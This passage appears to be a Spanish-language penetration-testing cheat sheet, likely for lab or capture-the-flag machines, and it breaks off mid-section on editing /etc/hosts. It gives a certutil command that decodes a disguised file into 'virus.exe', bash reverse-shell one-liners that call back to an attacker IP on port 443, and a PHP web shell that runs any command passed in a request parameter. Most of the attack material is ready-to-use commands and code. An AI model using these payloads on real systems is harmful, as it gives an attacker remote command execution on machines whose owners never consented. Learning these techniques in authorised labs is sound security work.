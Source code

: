 ```bash
certutil -decode .\camuflado.txt virus.exe
```
![[Pasted image 20240524134938.png]]
## CONSEGUIR REVERSE SHELL DE MÁQUINA VÍCTIMA A NUESTRO EQUIPO

Para ello primero pondremos a escuchar con netcat desde nuestro equipo host:
![[Pasted image 20221217112335.png]]
Después, desde la máquina víctima necesitaremos que ejecute el siguiente código para enviarnos una bash:
```bash
bash -i >& /dev/tcp/10.10.16.27/443 0>&1
```
Aunque si lo hacemos desde un navegador, debemos escribirlo de esta manera, porque al poner bash -c seleccionamos el intérprete:
```bash
bash -c 'bash -i >& /dev/tcp/10.8.100.91/443 0>&1'
````
## Código PHP malicioso para ganar Reverse Shell
Esto se utiliza para subir este fichero php a una web que funcione con este lenguaje para después acceder a dicho documento desde algún directorio de uploads de la web; y así ganar ejecución remota de comandos:
```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Luego podemos acceder a este fichero malicioso desde la máquina víctima poniendo lo siguiente en la URL seguido del comando a ejecutar:
![[Pasted image 20230218112346.png]]
## TCPDUMP PARA INTERCEPTAR PAQUETES DENTRO DE LA CONEXIÓN

![[Pasted image 20221217112455.png]]
También podemos guardar con tcpdump las conexiones por una determinada interfaz y analizarlas con wireshark. Por ejemplo hacemos un escaneo:
![[Pasted image 20230412194342.png]]
Si guardamos esto en un fichero .cap para analizarlo con wireshark, veremos que en este escaneo además de nuestra IP también se habrá enviado otros paquetes desde la IP 192.168.0.232 que hemos proporcionado como señuelo:
![[Pasted image 20230412194600.png]]
![[Pasted image 20230412194623.png]]
## MODIFICAR EL FICHERO /ETC/HOSTS PARA AÑADIR UN DOMINIO QUE NO NOS FUNCIONA
Podemos tener una URL que no nos carga en el navegador:
